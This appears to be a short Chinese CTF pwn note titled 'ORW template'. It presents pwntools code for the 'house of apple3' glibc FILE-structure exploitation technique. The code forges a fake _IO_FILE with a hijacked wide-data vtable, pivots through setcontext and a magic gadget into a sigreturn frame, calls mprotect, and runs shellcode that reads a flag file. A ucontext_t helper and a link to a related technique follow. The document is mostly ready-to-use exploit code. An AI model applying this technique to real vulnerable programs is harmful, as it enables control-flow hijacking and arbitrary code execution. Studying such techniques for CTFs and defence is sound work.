 **ORW模板**  
`magic gadget: libc2.36及以上版本被去除`

```python
# <getkeyserv_handle+576>
mov rdx, qword ptr [rdi + 8]; 
mov qword ptr [rsp], rax; 
call qword ptr [rdx + 0x20]
```

```python
def house_of_apple3(fake_IO_file_addr):
    frame = SigreturnFrame()
    frame.rip = ret
    frame.rsp = fake_IO_file_addr + 0x200
    frame.rdi = fake_IO_file_addr >> 12 << 12
    frame.rsi = 0x2000
    frame.rdx = 7

    fake_IO_file = flat(
        {
            0: 0xffffffffffffffff,  # _IO_read_end
            0x18: 1,                # _IO_write_ptr
            0x30: fake_IO_file_addr + 0x100,    # _IO_buf_end = _codecvt.step
            0x88: fake_IO_file_addr + 0x40,     # _codecvt
            0x90: _IO_wide_data,
            0xc8: _IO_wfile_jumps + 0x8,        # vtable
            0xf0: {
                0: 0,   # key
                0x8: fake_IO_file_addr + 0x100,
                0x20: setcontext + 61,
                0x28: magic_gadget,     # fun_ptr
                0x30: bytes(frame)[0x30:]
            },
            0x1f0: [
                pop_rax_ret, 10,
                syscall_ret,
                fake_IO_file_addr + 0x230
            ],
            0x220: asm(shellcraft.cat('flag'))
        }, filler='\x00'
    )

    payload = fake_IO_file
    return payload
```

可以结合国资社畜师傅提出的[house of 一骑当千](https://bbs.kanxue.com/thread-276056.htm)达到无条件ORW。

```python
class ucontext_t:
    '''
    [0x1c0] must be NULL.
    '''
    length = 0x1c8
    bin_str = length * b'\0'
    rip = 0
    rsp = 0
    rbx = 0
    rbp = 0
    r12 = 0
    r13 = 0
    r14 = 0
    r15 = 0
    rsi = 0
    rdi = 0
```